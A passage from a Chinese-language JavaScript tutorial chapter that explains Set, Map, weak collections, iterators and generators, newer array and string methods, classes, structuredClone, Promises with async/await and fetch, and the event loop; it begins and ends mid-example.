  console.log(new Set([{ a: 1 }, { a: 1 }]).size) // 2，内容一样但引用不同
  ```

#### 19.4.2 遍历与转换

```javascript
const s = new Set(['a', 'b', 'c'])

for (const item of s) {
  console.log(item) // a b c
}

s.forEach((value, key) => {
  // Set 的键和值是同一个东西，早期为了和数组的 forEach 保持一致才留下两个参数
  console.log(value, key)
})

// 转数组：展开运算符或 Array.from
console.log([...s]) // ['a', 'b', 'c']
console.log(Array.from(s)) // ['a', 'b', 'c']
```

#### 19.4.3 数组去重与集合运算

去重是 `Set` 最常用的场景：

```javascript
const arr = [1, 2, 2, 3, 3, 3]
console.log([...new Set(arr)]) // [1, 2, 3]
```

也可以借助 `Set` 做并集、交集、差集：

```javascript
const a = new Set([1, 2, 3])
const b = new Set([2, 3, 4])

// 并集：a 和 b 里的所有成员
console.log([...new Set([...a, ...b])]) // [1, 2, 3, 4]

// 交集：两个集合都有的成员
console.log([...a].filter(item => b.has(item))) // [2, 3]

// 差集：a 有、b 没有的成员
console.log([...a].filter(item => !b.has(item))) // [1]
```

> 提示
>
> 数组去重的老写法要双层循环或 `indexOf` 判断，`[...new Set(arr)]` 一行就够了，这是实际开发中 `Set` 最常见的用法。

#### 19.4.4 WeakSet 与 WeakMap

**`WeakSet`** 和 `Set` 用法相似，但有几点关键区别：

```javascript
const weakSet = new WeakSet()

// 区别一：只能存放对象，放基本类型会报错
// weakSet.add(10) // TypeError: Invalid value used in weak set

// 区别二：对对象是弱引用
let obj = { name: 'aaa' }
weakSet.add(obj) // 弱引用：不阻止对象被垃圾回收
weakSet.has(obj) // true
weakSet.delete(obj) // true
```

**`WeakMap`** 和 `Map` 用法相似，区别也一样：

```javascript
const obj = { name: 'obj1' }

const map = new Map()
const weakMap = new WeakMap()

map.set(1, 'ccc') // Map 的键可以是基本类型
// weakMap.set(1, 'ccc') // TypeError：WeakMap 的键必须是对象

map.set(obj, 'aaa') // 强引用：obj 被回收前一直可达
weakMap.set(obj, 'aaa') // 弱引用：obj 置为 null 后可以被回收

console.log(weakMap.get(obj)) // 'aaa'
console.log(weakMap.has(obj)) // true
console.log(weakMap.delete(obj)) // true
// WeakMap 没有 size 属性，也不能被遍历
```

**强引用与弱引用**：被强引用指向的数据，从根对象出发总能找到，垃圾回收器不会回收；被弱引用指向的数据，**不会阻止垃圾回收**，一旦外部不再有强引用，就会在下一次 GC 时被回收。

总结：`WeakSet` / `WeakMap` 的成员**只能是对象**、持有**弱引用**、**不能遍历**、没有 `size`，适合“给对象挂一些附属数据，又不想因此让对象无法回收”的场景。

### 19.5 Map

#### 19.5.1 创建与增删查

`Map` 是键值对的集合，用法和对象很像，但**键可以是任意类型**。

```javascript
const m = new Map()

m.set('name', '小明') // 添加 / 修改，返回 Map 本身，可以链式
m.set(18, '键是数字')
m.set(true, '键是布尔')

console.log(m.get('name')) // 小明  取值
console.log(m.has(18)) // true  判断某个键是否存在
console.log(m.size) // 3
m.delete(18) // 删除某个键
m.clear() // 清空
```

* 键可以是数字、布尔、对象、数组，甚至函数
* 取值用 `m.get(键)`，**不能用 `m[键]`** —— Map 的数据不在对象属性上，`m['name']` 只会得到 `undefined`
* 键是对象时同样按引用比较

```javascript
const keyObj = { id: 1 }
const m = new Map()
m.set(keyObj, '以对象为键的值')

console.log(m.get(keyObj)) // 以对象为键的值
console.log(m.get({ id: 1 })) // undefined，引用不同的对象不是同一个键
```

#### 19.5.2 Map 和普通对象的区别

| 对比项 | 普通对象 `{}` | `Map` |
| --- | --- | --- |
| 键的类型 | 只能是字符串或 Symbol，数字键会被转成字符串 | 任意类型 |
| 个数 | 要 `Object.keys(obj).length` | 直接 `map.size` |
| 遍历 | 要先 `Object.entries` 转成数组 | 本身可迭代，直接 `for...of` |
| 原型上的键 | 继承 `toString` 等属性，容易和业务键冲突 | 没有这个问题 |
| 频繁增删 | 一般够用 | 更合适 |

```javascript
const obj = {}
obj[1] = 'a'
console.log(Object.keys(obj)) // ['1']  ← 数字键被转成了字符串
```

> 经验
>
> 键都是字符串的普通数据，用对象就行（写起来更简洁）；键的类型不是字符串、或者需要频繁增删、需要 `size` 时，用 `Map`。

#### 19.5.3 遍历与转换

```javascript
const m = new Map([['name', '小明'], ['age', 18]])

for (const [key, value] of m) {
  console.log(key, value)
}

console.log([...m]) // [['name', '小明'], ['age', 18]]
console.log([...m.keys()]) // ['name', 'age']
console.log([...m.values()]) // ['小明', 18]
console.log(Object.fromEntries(m)) // { name: '小明', age: 18 }
```

* `new Map()` 的参数就是 `[[键, 值], ...]` 这种形式，正好是 `Object.entries` 的结果，所以 Map 和对象之间可以互相转换

### 19.6 迭代器与可迭代对象

`for...of` 为什么能遍历数组、字符串、`Set`、`Map`？这背后是一套**迭代器协议**，讲清楚之后 `for...of` 和展开运算符的用法就都顺了。

#### 19.6.1 什么是迭代器

**迭代器（iterator）**是能使用户在容器对象（container，例如链表或数组）上遍访的对象，使用该接口**无需关心对象的内部实现细节**：

* 它的行为像数据库中的光标，迭代器最早出现在 1974 年设计的 CLU 编程语言中
* 在各种编程语言的实现中，迭代器的实现方式各不相同，但是基本都有迭代器，比如 Java、Python 等

从定义可以看出：迭代器是帮助我们**对某个数据结构进行遍历**的对象。在 JavaScript 中，迭代器也是一个具体的对象，这个对象需要符合**迭代器协议（iterator protocol）**：

* 迭代器协议定义了产生一系列值（无论是有限还是无限个）的标准方式
* 在 JS 中这个标准就是一个特定的 `next` 方法

对 `next` 方法有如下要求：

* 它是一个**无参数**函数，返回一个应当拥有以下两个属性的对象
* `done`（boolean）：如果迭代器可以产生序列中的下一个值，则为 `false`（这等价于没有指定 `done` 这个属性）；如果迭代器已将序列迭代完毕，则为 `true`
* `value`：迭代器返回的任何 JavaScript 值；`done` 为 `true` 时 `value` 是可选的，如果它依然存在，即为迭代结束之后的默认返回值

```javascript
function createIterator(arr) {
  let index = 0
  return {
    next() {
      if (index < arr.length) {
        return { value: arr[index++], done: false }
      }
      return { value: undefined, done: true }
    }
  }
}

const iterator = createIterator(['abc', 'cba', 'nba'])
console.log(iterator.next()) // { value: 'abc', done: false }
console.log(iterator.next()) // { value: 'cba', done: false }
console.log(iterator.next()) // { value: 'nba', done: false }
console.log(iterator.next()) // { value: undefined, done: true }
```

#### 19.6.2 可迭代对象

上面这种写法整体看起来有点奇怪：每遍历一次，都要自己创建一个 `index` 变量，再创建一个所谓的迭代器对象。如果把这件事进一步封装，让**对象自己知道该怎么遍历**，得到的就叫做**可迭代对象**。

可迭代对象和迭代器是**两个不同的概念**：

* 当一个对象实现了 **iterable protocol（可迭代协议）**时，它就是一个可迭代对象
* 这个对象的要求是必须实现 `@@iterator` 方法，在代码中我们使用 **`Symbol.iterator`** 访问该属性
* `Symbol.iterator` 是一个函数，**调用它会返回一个迭代器**

```javascript
const iterableObj = {
  names: ['abc', 'cba', 'nba'],
  [Symbol.iterator]() {
    let index = 0
    return {
      next: () => {
        if (index < this.names.length) {
          return { value: this.names[index++], done: false }
        }
        return { value: undefined, done: true }
      }
    }
  }
}

for (const item of iterableObj) {
  console.log(item) // abc cba nba
}
```

* 这里的 `next` 写成箭头函数，是为了让 `this` 指向 `iterableObj`（见 18.3.2），换成普通函数就没法访问 `this.names` 了
* `for...of` 执行时，就是先调用 `[Symbol.iterator]()` 拿到迭代器，再不断调用 `next()`，直到 `done` 为 `true`

#### 19.6.3 原生可迭代对象

事实上我们平时创建的很多原生对象**已经实现了可迭代协议**，会生成一个迭代器对象：

* `String`、`Array`、`Map`、`Set`、`arguments` 对象、`NodeList` 集合

```javascript
// 字符串按字符遍历
const str = 'Hello World'
for (const s of str) {
  console.log(s) // H e l l o ...
}

// 数组按单元值遍历
for (const item of ['abc', 'cba', 'nba']) {
  console.log(item)
}

// arguments 对象也能遍历（第 15 章的动态参数）
function foo(x, y, z) {
  for (const arg of arguments) {
    console.log(arg)
  }
}
foo(20, 30, 40)

// 伪数组 NodeList 也能直接 for...of，不必再 Array.from 转换
for (const li of document.querySelectorAll('li')) {
  console.log(li)
}
```

也可以手动看一遍数组的迭代过程：

```javascript
const names = ['abc', 'cba', 'nba']

// 数组本身的这个函数就是可迭代函数
console.log(names[Symbol.iterator]) // [Function: values]

// 调用它，获取到迭代器
const iterator = names[Symbol.iterator]()

console.log(iterator.next()) // { value: 'abc', done: false }
console.log(iterator.next()) // { value: 'cba', done: false }
console.log(iterator.next()) // { value: 'nba', done: false }
console.log(iterator.next()) // { value: undefined, done: true }
```

> 提示
>
> 「可迭代」正是展开运算符 `...` 能用在它上面的原因：`[...names]`、`[...set]` 之所以有效，就是因为它们先拿到迭代器再逐个取值（见 19.4.2、19.5.3）。反过来，普通对象没有实现 `Symbol.iterator`，所以 `[...obj]` 会直接报错 —— 想让自定义对象能被展开、被 `for...of` 遍历，就得像 19.6.2 那样自己补上 `[Symbol.iterator]`。

#### 19.6.4 生成器函数

手写迭代器要自己维护 `index` 和 `done`，写起来啰嗦。**生成器函数**（generator）把这件事自动化了：只要在 `function` 后面加一个 `*`，函数内部就能用 `yield` 逐个“吐出”值，调用生成器会返回一个**迭代器**。

```javascript
function* createGenerator() {
  console.log('开始执行')
  yield 'abc'
  yield 'cba'
  yield 'nba'
  console.log('执行结束')
}

const generator = createGenerator()
console.log(generator.next()) // { value: 'abc', done: false }
console.log(generator.next()) // { value: 'cba', done: false }
console.log(generator.next()) // { value: 'nba', done: false }
console.log(generator.next()) // { value: undefined, done: true }
```

* 调用 `createGenerator()` 时**函数体并不会立刻执行**，只是返回一个迭代器
* 每次调用 `next()` 才执行到下一个 `yield`，并把 `yield` 后面的值作为 `value` 返回
* 所有 `yield` 执行完后，再调用 `next()` 得到 `{ value: undefined, done: true }`
* 生成器函数返回的迭代器本身也实现了 `Symbol.iterator`，所以可以直接 `for...of`

```javascript
function* range(from, to) {
  for (let i = from; i <= to; i++) {
    yield i
  }
}

for (const n of range(1, 5)) {
  console.log(n) // 1 2 3 4 5
}

console.log([...range(1, 5)]) // [1, 2, 3, 4, 5]，展开运算符也能用
```

**`yield\*` 委托**：把一个生成器（或可迭代对象）的值全部交给当前生成器继续产出：

```javascript
function* foo() {
  yield 'a'
  yield 'b'
}

function* bar() {
  yield 1
  yield* foo() // 把 foo 产出的值全部接过来
  yield 2
}

console.log([...bar()]) // [1, 'a', 'b', 2]
```

用生成器实现前面的可迭代对象，代码短很多：

```javascript
const rangeObj = {
  from: 1,
  to: 5,
  *[Symbol.iterator]() {
    for (let i = this.from; i <= this.to; i++) {
      yield i
    }
  }
}

console.log([...rangeObj]) // [1, 2, 3, 4, 5]
```

> 提示
>
> 生成器的典型用途是**惰性求值**和**自定义遍历规则**：值是用到时才产生的，不需要一次性生成整个数组；后面学的 `async / await` 本质上也可以理解为生成器 + Promise 的语法糖。

### 19.7 数组的补充方法

#### 19.7.1 判断数组与取值

```javascript
// typeof 判断数组得到的也是 object，不可靠
console.log(typeof []) // object
console.log(Array.isArray([])) // true  ← 判断是不是数组的可靠方法
console.log(Array.isArray({ length: 0 })) // false

const arr = [1, 2, 3]
// 取最后一个单元值
console.log(arr[arr.length - 1]) // 3  老写法
console.log(arr.at(-1)) // 3  ← at 支持负数下标，-1 就是最后一个
console.log(arr.at(-2)) // 2
console.log(arr.at(0)) // 1  正数时和 arr[0] 一样
```

#### 19.7.2 拍平：`flat` 与 `flatMap`

`flat(深度)` 把嵌套数组按层数展开，默认只展开一层：

```javascript
const arr = [1, [2, [3, [4]]]]

console.log(arr.flat()) // [1, 2, [3, [4]]]  默认展开一层
console.log(arr.flat(2)) // [1, 2, 3, [4]]
console.log(arr.flat(Infinity)) // [1, 2, 3, 4]  全部展开

// 顺便会把数组里的空洞去掉
console.log([1, , 3].flat()) // [1, 3]
```

`flatMap(fn)` 相当于先 `map` 再 `flat(1)`：

```javascript
const list = ['小明 18', '小红 20']

// 用 map 得到的是二维数组
console.log(list.map(item => item.split(' '))) // [['小明', '18'], ['小红', '20']]
// 用 flatMap 直接得到一维数组
console.log(list.flatMap(item => item.split(' '))) // ['小明', '18', '小红', '20']
```

#### 19.7.3 填充与复制：`fill` 与 `copyWithin`

```javascript
// fill(值, 开始索引, 结束索引) 把区间内的单元值都改成同一个值（前闭后开）
const arr = new Array(3).fill(0)
console.log(arr) // [0, 0, 0]

console.log([1, 2, 3, 4].fill('x', 1, 3)) // [1, 'x', 'x', 4]

// copyWithin(粘贴到的位置, 开始索引, 结束索引) 把数组内部的一段复制到另一段
console.log([1, 2, 3, 4, 5].copyWithin(0, 3)) // [4, 5, 3, 4, 5]
```

> 注意
>
> `new Array(3).fill({})` 里的三个单元是**同一个对象的引用**，改一个三个都变。要装对象得用 `Array.from({ length: 3 }, () => ({}))`。

#### 19.7.4 从后往前找：`findLast` 与 `findLastIndex`

课上讲过 `find` 和 `findIndex` 从前往后找，这两个是从后往前找：

```javascript
const nums = [5, 12, 8, 130, 44]

console.log(nums.find(item => item > 10)) // 12  第一个满足条件的
console.log(nums.findLast(item => item > 10)) // 44  最后一个满足条件的
console.log(nums.findIndex(item => item > 10)) // 1
console.log(nums.findLastIndex(item => item > 10)) // 4
```

#### 19.7.5 不改变原数组的排序：`toSorted` 与 `toReversed`

课上的 `sort` 和 `reverse` 会**直接修改原数组**，这两个新方法返回新数组，原数组不变：

```javascript
const nums = [3, 1, 2]

const sorted = nums.toSorted((a, b) => a - b) // 比较函数的用法和 sort 一样
console.log(sorted) // [1, 2, 3]
console.log(nums) // [3, 1, 2]  原数组没变

console.log(nums.toReversed()) // [2, 1, 3]
console.log(nums) // [3, 1, 2]
```

> 注意
>
> `toSorted`、`toReversed`、`findLast` 都是 2023 年才成为标准的新方法，做兼容性要求高的项目时先确认浏览器支持，或者退回 `[...arr].sort()` 这种写法。

#### 19.7.6 判断是否包含：`includes`

在 ES7 之前，想判断一个数组中是否包含某个元素，需要靠 `indexOf` 获取结果，再判断是否为 `-1`。ES7 新增了 `includes(valueToFind[, fromIndex])`：包含则返回 `true`，否则返回 `false`，第二个参数是从哪个索引开始往后找。

```javascript
const names = ['abc', 'cba', 'nba', 'why']

console.log(names.includes('why')) // true
console.log(names.includes('why', 4)) // false  从索引 4 开始往后找，已经没有了
console.log(names.includes('cba', 1)) // true

// 字符串上也有同名方法（16.6.1 讲过），语义一致
console.log('hello world'.includes('world')) // true
```

> 提示
>
> `includes` 和 `indexOf` 在判断 `NaN` 时有本质区别：`indexOf` 用的是 `===`，判断 `NaN` 永远得到 `-1`；`includes` 判断得非常准。所以「有没有」这个语义优先用 `includes`。

```javascript
const arr = [1, 2, NaN]
console.log(arr.indexOf(NaN)) // -1
console.log(arr.includes(NaN)) // true
```

### 19.8 字符串的补充方法

#### 19.8.1 补位：`padStart` 与 `padEnd`

`padStart(总长度, 补的内容)` 在开头补到指定长度，`padEnd` 在结尾补：

```javascript
console.log('5'.padStart(2, '0')) // 05
console.log('5'.padEnd(3, '*')) // 5**
console.log('12'.padStart(2, '0')) // 12  已经够长，原样返回
console.log('7'.padStart(3, 'ab')) // ab7  补的内容不够长会重复使用
```

> 提示
>
> 第一个参数是**补完后的总长度**，不是补几个字符。倒计时里把数字补成两位，用它比写 `if (num < 10)` 再拼 `'0'` 干净得多。

#### 19.8.2 截取三兄弟：`slice`、`substring`、`substr`

课上讲过 `substring`，另外两个也很常见（`substr` 已经不推荐使用）：

```javascript
const str = 'abcdefg'

console.log(str.slice(1, 3)) // bc  从索引 1 截到索引 3（不包含 3）
console.log(str.slice(-3)) // efg  负数表示从后往前数
console.log(str.substring(1, 3)) // bc  用法相同
console.log(str.substring(3, 1)) // bc  参数写反了会自动交换
console.log(str.slice(3, 1)) // ''  slice 不会交换，截不到就是空字符串
console.log(str.substr(1, 3)) // bcd  第二个参数是「长度」，已不推荐
```

| 方法 | 第二个参数 | 支持负数 | 参数写反了 |
| --- | --- | --- | --- |
| `slice(start, end)` | 结束索引（不含） | 支持 | 返回空字符串 |
| `substring(start, end)` | 结束索引（不含） | 不支持（当 0 处理） | 自动交换 |
| `substr(start, length)` | 截取长度 | start 支持 | 不推荐使用 |

#### 19.8.3 其他常用字符串方法

```javascript
const str = '  Hello World  '

console.log(str.trimStart()) // 'Hello World  '  只去左侧空格
console.log(str.trimEnd()) // '  Hello World'  只去右侧空格（课上学的 trim 去两侧）

console.log('a-b-c'.replaceAll('-', '/')) // a/b/c  ← 替换所有
console.log('a-b-c'.replace('-', '/')) // a/b-c  ← replace 只替换第一个

console.log('ab'.repeat(3)) // ababab  重复

console.log('abc'.charAt(1)) // b  取某个位置的字符
console.log('abc'.at(-1)) // c  字符串的 at 也支持负数
console.log('abc'[1]) // b  也可以用中括号取

console.log('Hello'.includes('ell')) // true
console.log('Hello'.startsWith('He')) // true
console.log('Hello'.endsWith('lo')) // true
console.log('Hello'.indexOf('l')) // 2  第一次出现的位置，找不到返回 -1
```

> 注意
>
> `replace` 只替换第一个匹配到的内容，要全部替换得用 `replaceAll`，或者用正则加 `g` 修饰符：`replace(/-/g, '/')`。

### 19.9 数值与 Math 补充

#### 19.9.1 `Number` 上的判断方法

```javascript
// 判断是不是整数
console.log(Number.isInteger(5)) // true
console.log(Number.isInteger(5.5)) // false

// 判断是不是 NaN：NaN 和谁都不相等，所以不能用 === 判断
console.log(NaN === NaN) // false
console.log(Number.isNaN(NaN)) // true

// 全局的 isNaN 会先隐式转换，容易误判
console.log(isNaN('abc')) // true   'abc' 转成数字是 NaN，于是被当成「是 NaN」
console.log(isNaN('12')) // false  '12' 能转成 12，算数字
console.log(Number.isNaN('abc')) // false  参数本身不是 NaN，直接返回 false
```

* `Number.isNaN` 不做隐式转换，只有参数真的是 `NaN` 才返回 `true`，比 `x !== x` 这种写法更清楚
* `Number.isFinite(x)` 判断是不是有限数字，`NaN` 和 `Infinity` 都会返回 `false`

#### 19.9.2 `Math` 的补充方法

课上讲过 `PI`、`random`、`ceil`、`floor`、`round`、`max`、`min`、`pow`、`sqrt`，再补两个和取整、符号有关的：

```javascript
// trunc 直接去掉小数部分（向 0 取整），负数时和 floor 结果不同
console.log(Math.trunc(4.9)) // 4
console.log(Math.floor(4.9)) // 4
console.log(Math.trunc(-4.9)) // -4  向 0 靠
console.log(Math.floor(-4.9)) // -5  向小的方向取

// sign 返回数字的符号：正数 1、负数 -1、0 返回 0
console.log(Math.sign(5)) // 1
console.log(Math.sign(-5)) // -1
console.log(Math.sign(0)) // 0
```

另外，`**` 是幂运算符，`2 ** 3` 等价于 `Math.pow(2, 3)`：

```javascript
console.log(2 ** 3) // 8
console.log(Math.pow(2, 3)) // 8
```

#### 19.9.3 数字分隔符与精度提醒

长数字可以用下划线分隔，方便阅读，不影响数值本身：

```javascript
const money = 1_000_000
console.log(money) // 1000000
```

精度问题课上提过（`0.1 + 0.2` 不等于 `0.3`），实际处理时有两个常用套路：

```javascript
// 1. 判断两个小数是否相等：差值的绝对值足够小就算相等
console.log(Math.abs(0.1 + 0.2 - 0.3) < Number.EPSILON) // true

// 2. 金额一律换算成最小单位（分），用整数计算，最后再除回来看
const price = 1990 // 19.9 元
const count = 3
console.log(price * count / 100) // 59.7
```

### 19.10 class 语法

#### 19.10.1 基本写法

第 17 章学过用「构造函数 + 原型对象」创建对象，ES6 之后有了看起来更清晰的写法 —— `class`：

```javascript
class Person {
  // 构造函数，和普通构造函数作用一样，new 的时候自动执行
  constructor(name, age) {
    this.name = name
    this.age = age
  }

  // 方法，等价于之前写的 Person.prototype.walk = function () {}
  walk() {
    console.log(`${this.name} 在走路`)
  }
}

const p = new Person('小明', 18)
p.walk() // 小明 在走路

console.log(p instanceof Person) // true
console.log(Person.prototype.walk) // 能取到，说明方法确实挂在原型对象上
```

> 提示
>
> `class` 只是「构造函数 + 原型」的**语法糖**，底层还是同一套原型机制。看懂第 17 章的原型，`class` 就是换个写法而已。

#### 19.10.2 实例方法、静态方法与实例属性

```javascript
class Person {
  // 实例属性也可以直接写在类里，每个实例各有一份
  gender = '男'

  constructor(name) {
    this.name = name
  }

  // 实例方法：通过实例调用，this 指向实例
  walk() {
    console.log(`${this.name} 在走路`)
  }

  // 静态方法：通过类名调用，this 指向类本身
  static sayHi() {
    console.log('hi')
  }
}

const p = new Person('小明')
console.log(p.gender) // 男
p.walk()
Person.sayHi()
```

* 静态方法挂在**类**上，只能用 `Person.sayHi()`，实例上取不到
* 静态方法里的 `this` 是类本身，不是实例
* 类里写方法**不用** `function` 关键字，方法之间也不用逗号隔开
* 类的本质还是函数，`typeof Person` 得到的是 `'function'`

> 注意
>
> 和函数声明不同，`class` 声明的类**不会提升**，必须先声明后使用；而且必须用 `new` 调用，直接写 `Person()` 会报错。

#### 19.10.3 getter 与 setter

用 `get` 和 `set` 可以让「方法」长得像「属性」，给属性的读写加一层处理：

```javascript
class Circle {
  constructor(radius) {
    this.radius = radius
  }

  // 读取时自动执行
  get area() {
    return (3.14 * this.radius ** 2).toFixed(2)
  }

  // 赋值时自动执行，顺便可以做校验
  set diameter(value) {
    if (value <= 0) {
      console.log('直径必须是正数')
      return
    }
    this.radius = value / 2
  }
}

const c = new Circle(2)
console.log(c.area) // 12.56  像用属性一样，不加小括号
c.diameter = 10
console.log(c.radius) // 5  赋值时顺手把半径也改了
```

#### 19.10.4 继承：`extends` 与 `super`

第 17 章的原型继承，用 `class` 写长这样：

```javascript
class Person {
  constructor(name) {
    this.name = name
  }

  say() {
    console.log(`我是${this.name}`)
  }
}

// Student 继承 Person
class Student extends Person {
  constructor(name, score) {
    super(name) // 调用父类的构造函数，必须在使用 this 之前调用
    this.score = score
  }

  say() {
    super.say() // 调用父类的同名方法
    console.log(`我考了${this.score}分`)
  }
}

const s = new Student('小明', 95)
s.say()
// 我是小明
// 我考了95分

console.log(s instanceof Student, s instanceof Person) // true true
```

* `extends` 建立继承关系，子类的实例既能用子类的方法，也能用父类的方法
* 子类构造函数里必须先 `super()`，之后才能用 `this`
* 子类不写 `constructor` 时，会自动调用 `super(...)` 并把手里的参数原样传上去
* 子类重写了父类方法后，还想用父类的原方法，就用 `super.方法名()`

#### 19.10.5 私有字段 `#`

以 `#` 开头的属性只能在类内部访问，外部取不到，适合保护不想被随便改的数据：

```javascript
class Bank {
  #money = 0 // 私有字段

  save(amount) {
    this.#money += amount
  }

  getMoney() {
    return this.#money
  }
}

const b = new Bank()
b.save(100)
console.log(b.getMoney()) // 100
console.log(b.#money) // 报错：私有字段不能在类外部访问
```

### 19.11 `structuredClone` 深拷贝

第 18 章讲了三种深拷贝方式，现在浏览器和 Node 都内置了 `structuredClone`，一行就能搞定：

```javascript
const obj = {
  name: '小明',
  info: { age: 18 },
  hobbies: ['看书'],
  birthday: new Date('2008-08-08')
}

const copy = structuredClone(obj)
copy.info.age = 20

console.log(obj.info.age) // 18  原对象不受影响
console.log(copy.birthday instanceof Date) // true  Date 依然是时间对象，没变成字符串
```

和课上学过的几种方式对比：

| 方式 | 特点 |
| --- | --- |
| 递归函数 | 要自己写，用来理解递归的原理 |
| `JSON.parse(JSON.stringify(obj))` | 一行搞定，但函数、`undefined`、`Symbol` 会丢，`Date` 会变成字符串 |
| lodash 的 `cloneDeep` | 兼容老环境，但要引入库 |
| `structuredClone` | 浏览器自带，支持 `Date`、`Map`、`Set` 等，代码最短 |

> 注意
>
> * 函数、DOM 节点、`Symbol` 不能被克隆，遇到会直接报错
> * 自定义 `class` 的实例被克隆后会变成普通对象，**原型会丢失**
> * 2022 年以前的浏览器、Node 17 以下没有这个方法，兼容性要求高时仍用 lodash
> * 深拷贝有性能开销，数据不需要独立副本时不要随手用

### 19.12 Promise 与 async / await

#### 19.12.1 为什么需要异步

第 12 章的事件循环讲过：定时器这类「等一会儿再执行」的任务是**异步任务**。实际开发里最典型的异步任务是**向服务器要数据** —— 数据什么时候回来不确定，总不能卡在那里干等。

课堂上学的是回调函数，一个请求套一个请求时，就成了「回调地狱」：

```javascript
// 每一步都要等上一步的结果，代码一直往右、往深里缩
getUser(function (user) {
  getOrders(user.id, function (orders) {
    getDetail(orders[0].id, function (detail) {
      console.log(detail)
    })
  })
})
```

`Promise` 就是为了解决这个问题而生的。

#### 19.12.2 Promise 的三种状态

`Promise` 是一个「承诺」对象，代表一个未来才有结果的操作，它只有三种状态：

| 状态 | 含义 |
| --- | --- |
| pending | 进行中，还没有结果 |
| fulfilled | 已成功，用 `resolve()` 兑现 |
| rejected | 已失败，用 `reject()` 拒绝 |

状态一旦从 pending 变成 fulfilled 或 rejected，就**不能再改变**。基本用法：

```javascript
const p = new Promise((resolve, reject) => {
  // 这个函数会立刻同步执行
  setTimeout(() => {
    const ok = true
    if (ok) {
      resolve('数据回来了') // 成功：把结果交给 then
    } else {
      reject(new Error('请求失败')) // 失败：把原因交给 catch
    }
  }, 1000)
})

p.then(result => {
  console.log(result) // 数据回来了
  return '处理后的数据' // 返回值会成为下一个 then 的参数
})
  .then(value => {
    console.log(value) // 处理后的数据
  })
  .catch(err => {
    console.log(err.message) // 链上任何一环失败都会走到这里
  })
  .finally(() => {
    console.log('不管成功失败都会执行') // 常用来关 loading
  })
```

* `then` 接收成功的回调，可以一直链下去，上一个 `then` 的返回值会传给下一个
* `catch` 负责失败，整条链上任何一处出错都会被它接住
* `finally` 无论成功失败都会执行，适合做收尾
* 这三个方法返回的都是**新的 Promise**，所以能一直往下点

> 提示
>
> `then` / `catch` 里的回调属于**微任务**，会比 `setTimeout` 这类宏任务更早执行 —— 第 12 章那个 `1 2 4 3` 的顺序就是这么来的。

#### 19.12.3 async / await

`async / await` 是 Promise 的语法糖，让异步代码看起来像同步代码：

```javascript
// async 函数一定返回 Promise
async function getData() {
  // await 会等 Promise 有结果后再往下走，并把结果取出来
  const result = await new Promise(resolve => {
    setTimeout(() => resolve('数据回来了'), 1000)
  })

  console.log(result) // 数据回来了
  return result // 相当于 resolve(result)
}

getData()
```

* `await` 后面接 Promise，就等它的结果；接普通值，直接得到这个值
* `await` 会**暂停当前 async 函数**往下执行，但不会卡住整个页面，其他代码照常运行
* `await` 只能写在 `async` 函数里
* 调用 async 函数拿到的还是 Promise，所以它后面同样可以 `.then()`

#### 19.12.4 失败处理：try ... catch

`async` 函数里不能用 `catch` 方法接错误，要用课上学的 `try ... catch`：

```javascript
async function getData() {
  try {
    const res = await fetch('https://jsonplaceholder.typicode.com/todos/1')
    const data = await res.json()
    console.log(data)
  } catch (err) {
    console.log('请求出错了：', err.message)
  } finally {
    console.log('请求结束')
  }
}

getData()
```

#### 19.12.5 并发执行

几个互不依赖的请求，一个一个 `await` 太慢，可以让它们一起发出去：

```javascript
// p1、p2、p3 都是 fetch 返回的 Promise（请求已经发出去了）
const p1 = fetch('https://jsonplaceholder.typicode.com/todos/1')
const p2 = fetch('https://jsonplaceholder.typicode.com/todos/2')
const p3 = fetch('https://jsonplaceholder.typicode.com/todos/3')

async function loadAll() {
  // 1. all：全部成功才继续，返回结果数组，顺序和传入顺序一致
  const [a, b, c] = await Promise.all([p1, p2, p3])
  console.log(a.status, b.status, c.status)

  // 2. allSettled：不管成功失败都等，返回每个请求的状态和结果
  const results = await Promise.allSettled([p1, p2, p3])
  console.log(results)

  // 3. race：谁先有结果就用谁（成功或失败都算），常用来做超时控制
  const first = await Promise.race([p1, p2])
  console.log(first.status)
}

loadAll()
```

* `Promise.all`：**有一个失败整体就失败**，如果每个请求的失败要单独处理，用 `allSettled`
* `Promise.race`：谁快用谁，常用来「几秒内没有响应就当作超时」

#### 19.12.6 用 `fetch` 拿数据

```javascript
// GET：取数据
async function getTodos() {
  const res = await fetch('https://jsonplaceholder.typicode.com/todos/1')

  // 先看状态码
  if (!res.ok) {
    throw new Error(`请求失败：${res.status}`)
  }

  const data = await res.json() // 把响应的 JSON 字符串转成对象，注意也要 await
  console.log(data)
}

// POST：提交数据，要告诉服务器发的是什么格式
async function addTodo() {
  const res = await fetch('https://jsonplaceholder.typicode.com/todos', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json' // 声明发送的是 JSON
    },
    body: JSON.stringify({ title: '学习 Promise', completed: false }) // 对象要先转成字符串
  })

  const data = await res.json()
  console.log(data)
}

getTodos()
addTodo()
```

* `res.json()` 返回的是 Promise，要 `await`
* 返回的不是 JSON 时用 `res.text()`
* `res.status` 是状态码，`res.ok` 表示 200 ~ 299 之间

> 注意
>
> `fetch` 只在断网这类情况下才 `reject`；接口返回 404、500 时它依然算「请求成功」，必须自己判断 `res.ok` 或 `res.status`。

> 经验
>
> 用 `fetch` 请求的套路基本固定：`await fetch` → 判断 `res.ok` → `await res.json()` → 用数据，外面套一层 `try ... catch` 兜错。

#### 19.12.7 把定时器包成 Promise

回调式的 API 也能包装成 Promise，用起来更整齐：

```javascript
function delay(ms) {
  return new Promise(resolve => {
    setTimeout(resolve, ms)
  })
}

async function run() {
  console.log('开始')
  await delay(1000) // 等 1 秒
  console.log('1 秒后执行')
}

run()
```

### 19.13 事件循环：宏任务与微任务

第 12 章讲过事件循环的入门版（同步任务先执行完，异步任务进任务队列等着），Promise 那节的提示也提过「`then` 是微任务」。这一节把「谁先谁后」讲完整。

#### 19.13.1 两个任务队列

事件循环中并非只维护着一个队列，事实上是两个：

* **宏任务队列（macrotask queue）**：`ajax`、`setTimeout`、`setInterval`、DOM 监听、UI Rendering 等
* **微任务队列（microtask queue）**：`Promise` 的 `then` 回调、`MutationObserver API`、`queueMicrotask()` 等

#### 19.13.2 执行顺序

* ① `main script` 中的代码**优先执行**（也就是写在最外层的那些 script 代码）
* ② 在执行**任何一个宏任务之前**（注意是「一个宏任务」，不是一个队列），都会先去看微任务队列中是否有任务需要执行
  * 也就是说，宏任务执行之前，必须保证微任务队列是空的
  * 如果不为空，那么就优先执行微任务队列中的任务（回调）

```javascript
console.log('main script start')

setTimeout(() => {
  console.log('setTimeout')
}, 0)

Promise.resolve().then(() => {
